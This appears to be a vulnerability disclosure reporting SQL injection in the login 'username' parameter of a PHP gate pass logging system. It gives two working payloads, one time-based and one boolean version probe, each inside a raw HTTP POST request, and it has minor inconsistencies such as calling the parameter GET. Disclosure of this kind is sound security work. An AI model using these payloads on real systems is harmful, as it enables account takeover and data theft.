



## BUG_Author: 
**ZongXin Li**

## Affected version: 
EMPLOYEE AND VISITOR GATE PASS LOGGING SYSTEM - 1.0

## Vendor:
https://www.sourcecodester.com/users/tips23

## Software:
https://www.sourcecodester.com/php/15026/employee-and-visitor-gate-pass-logging-system-php-source-code.html

## Vulnerability File:
/employee_gatepass/classes/Login.php

## Description:
The system Employee and Visitor Gate Pass Logging 1.0 is vulnerable to SQL Injection via /employee_gatepass/classes/Login.php.
The parameter `username` is not sanitized correctly. The malicious actor can use this vulnerability to manipulate the administrator account of the systemand can take full control of the information about the other accounts.
Status: CRITICAL

GET parameter 'username' exists SQL injection vulnerability

Payload1:`username=admin' and (select 2 from (select(sleep(10)))x) and 'x'='x&password=admin123`

```
POST /employee_gatepass/classes/login.php?f=login HTTP/1.1
Host: 127.0.0.1
sec-ch-ua: " Not A;Brand";v="99", "Chromium";v="92"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 32

username=admin' and (select 2 from (select(sleep(10)))x) and 'x'='x&password=admin123
```

The server's response time is 10 seconds



Payload2:`username=admin'and left(version(),6)='5.7.27' AND 'ledo'='ledo&password=admin123`

```
POST /employee_gatepass/classes/login.php?f=login HTTP/1.1
Host: 127.0.0.1
sec-ch-ua: " Not A;Brand";v="99", "Chromium";v="92"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 32

username=admin'and left(version(),6)='5.7.26' AND 'ledo'='ledo&password=admin123
```

Error injection success

When I enter the version number 5.7.26, it returns "success". Error statement when typing 5.7.27




